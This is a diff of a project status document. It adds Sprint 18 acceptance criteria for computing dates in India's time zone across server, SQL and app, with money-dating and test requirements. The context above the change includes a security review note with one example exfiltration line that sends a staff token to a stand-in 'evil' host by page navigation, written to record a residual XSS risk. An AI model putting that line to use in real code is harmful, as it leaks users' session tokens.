

Before and after one commit to ridewithsachin80-droid/SiriMane, a Markdown page: docs/ai-team/PHASE_STATUS.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: Sprint 18 acceptance criteria (before build)
Co-Authored-By: Claude Opus 5.5 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01WEpi8GTkv4zAxcDRqF5mMF

```diff
--- a/docs/ai-team/PHASE_STATUS.md
+++ b/docs/ai-team/PHASE_STATUS.md
@@ -197,3 +197,15 @@ Owner, 8 Nov 16:24: "be in order" — stability items first, AI-first work after
 
 **S17-4 correction (review round 1):** the deferral reason above overstates the protection. With connect-src/img-src/form-action locked, no *background* request can reach another site — but a page script can still leave by *navigating* the page (`location.href = 'https://evil/?t=' + token`); CSP cannot block top-level navigation. Remaining risk recorded: an injected script could still leak the 8-hour staff token that way. The real defence remains output escaping (xss gate). **Scheduled:** httpOnly-cookie login + CSRF protection on write routes — backlog item D-17-1, next security sprint.
 Backlog from the review: D-17-1 (above) · replace the `to_jsonb(u)->>'disabled_at'` read with plain `u.disabled_at` once production has migrated · the resident service worker caches every navigation under `/guest.html` (pre-existing; offline it can show the wrong page) · "+ Add" cut off in the staff card header at 360 px (pre-existing) · the two-admin turn-off race is serialised by an advisory lock but has no automated test (needs two concurrent requests) · optional CSP `report-uri` to see violations on real phones.
+
+## Sprint 18 — one clock: India's date at every hour (D-15-2) (criteria recorded before build)
+Owner, 9 Nov 01:03: "go". Found while testing hotfix 17.1: between 00:00 and 05:30 IST the server, the database and the phones' default dates use the UTC date — i.e. yesterday.
+Survey: Railway's Postgres and Node run in UTC. 58 `timestamp without time zone` columns hold UTC wall-clock time, so the database session time zone must NOT be switched (old and new rows would differ by 5½ h). The fix is targeted: every place that asks "what is today / this month / which day was this" computes it in Asia/Kolkata.
+
+| ID | Acceptance criterion | Review |
+|---|---|---|
+| S18-1 | **One clock.** Every "today", "yesterday", "this month", default date, date limit and date range — in the server (Node), the SQL it runs, the management screens and the resident app — uses India's date at every hour, including 00:00–05:30 IST, and on any phone time zone setting. Day boundaries of stored time stamps (e.g. "complaints raised today", refunds in a period) are taken in IST. Storage formats and existing rows are not changed; no schema change | QA |
+| S18-2 | **Money (called out).** New collections, the additional-deposit entry, purchases, inspections and checkout dates entered between 00:00 and 05:30 IST get *today's* IST date — rent collected at 1 am on the 1st counts in the new month (before: the previous month). Before/after shown on sample data in TEST_REPORT. Existing records are untouched; `pending_verification` never counts as income (unchanged) | MONEY, SEC |
+| S18-3 | **Year-to-date report starts on 1 January.** Today it starts on 31 December of the previous year (phone time zone bug, at every hour). Before/after totals on sample data | MONEY |
+| S18-4 | **Proven at the hard hours.** The full 12-suite gate passes with the whole stack (Node, Postgres and Chrome) on a faked clock at: 14:00 IST; 01:00 IST on the 1st of a month (inside the window and across a month boundary); 23:45 IST — plus twice on the real clock. New tests assert the exact dates in the window | QA |
+| S18-5 | Independent review before merge; mutation check of the window tests | QA |
```
